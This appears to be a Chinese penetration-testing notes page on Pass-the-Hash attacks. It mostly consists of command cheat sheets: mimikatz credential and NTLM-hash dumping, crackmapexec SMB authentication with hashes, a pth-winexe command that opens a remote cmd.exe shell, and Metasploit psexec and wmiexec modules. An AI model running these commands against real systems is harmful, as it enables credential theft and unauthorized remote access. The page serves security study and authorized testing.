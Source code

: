 ```yaml
---
description: 基于NTLM认证 / 不需要知道明文密码 / 较旧的且使用NTLM协议的系统
---
```


# ✔️ 哈希传递 - Pass The Hash

## 先决条件

* 需要找到目标用户账户的NTLM哈希
* 目标域名
* 目标系统必须支持SMB / WMI / RPC 等远程认证协议

## 具体实现

### 技术原理

* 利用已知哈希值来进行身份验证，不需要知道账户的明文密码

## 常用工具

### mimikatz.exe

```powershell
mimikatz.exe
# 权限提升
privilege::debug
# 获取详细的用户凭证信息
sekurlsa::logonpasswords full
# 列出当前用户的凭据
lsadump::lsa /patch
# 获取DC上的所有域用户的NTLM哈希
sekurlsa::msv
# 



```

### Impacket

* 几个常用脚本，按实际情况在该工具的/examples目录中选择合适脚本：

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

### Crackmapexec

```bash
# 使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD
# 在域环境中使用NTLM哈希进行身份验证
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD -d target.com
# 列出活动会话
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --sessions
# 利用NTLM哈希来获取TGT票据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --kerberos
# 利用NTLM哈希直接使用mimikatz提取凭据
crackmapexec smb 192.168.xxx.xx -u admin -H D9F67574879GDL33..........676FD --mimikatz
# 仅以smb模块举例，还有其他模块
```

### pth-winexe

* 当找到了目标账户的NTLM哈希之后，可以将其当成密码来使用，绕过输入明文密码来进行身份验证，从而获取到shell：

```bash
# pth-winexe -U [域名/用户名]%[hash] //[目标IP] cmd.exe
pth-winexe -U Administrator%00000000000000000000000000000000:32196B56FF.........3BF38 //192.168.xxx.xxx cmd.exe
```

### Metasploit

```bash
# psexec模块
use exploit/windows/smb/psexec
# wmiexec模块
use auxiliary/admin/smb/wmiexec
# smb_login模块
use auxiliary/scanner/smb/smb_login
# smbexec模块
use exploit/windows/smb/smbexec
```

{% hint style="info" %}
哈希传递攻击分为针对本地用户账户和域用户账户，通过抓取目标用户的NTLM哈希来绕过明文密码登录，其本质就是冒充特定的用户账户。
{% endhint %}
